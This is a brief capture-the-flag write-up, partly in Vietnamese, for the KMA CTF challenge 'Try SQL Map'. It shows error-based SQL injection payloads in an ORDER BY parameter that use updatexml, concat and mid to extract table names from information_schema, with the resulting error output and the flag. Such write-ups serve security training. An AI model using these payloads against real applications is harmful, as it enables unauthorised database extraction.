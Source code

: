 # KMA CTF - Try SQL Map

**hints**: The length of flag table name > 32 characters

## PHÂN TÍCH
Như tên bài , thì đây là bài SQLi ở lệnh ORDER BY: `http://try-sqlmap.ctf.actvn.edu.vn/?order=id`

Câu truy vấn có thể sẽ như sau:

```
SELECT column_name from table_name order by $_GET[order]
```

`Quick sqlmap` --> sql injection `error based`!

**Payload**:
```
updatexml(0,concat(0xa,(select table_name from information_schema.tables limit 1)),0)
```
**Result**:
```
XPATH syntax error: '
flahga123456789xxsxx012xxxxxxxx'
```

Because of the length, we use mid function in MySQL to cut the rest of flag that are not fully obtain.

```
updatexml(0,concat(0xa,(select mid(table_name,20,25) from information_schema.tables limit 1)),0)
```
**Result**:
```
XPATH syntax error: '
x012xxxxxxxxx34567xx1'
```

Ok, merge it together: `flahga123456789xxsxx012xxxxxxxxx34567xx1`, we got the table name.

Same with column and flag using column_name from information_schema.tables --> select column_name from flahga123456789xxsxx012xxxxxxxxx34567xx1....

**flag**: `KMACTF{X_Ooooooooooooorder_By_Noooooooooooooooooooone_SQLMaaaaaaaaaaaap?!!!!!!!!!!!!}`

**Góc than thở**:
```
Trước khi kết luật điều gì, check kĩ liệu payload có lỗi, hàm nào thực sự bị block. Mỗi chall lỗi nó dump khác nhau, tiêu chỉnh từ từ, đừng ngu.
```
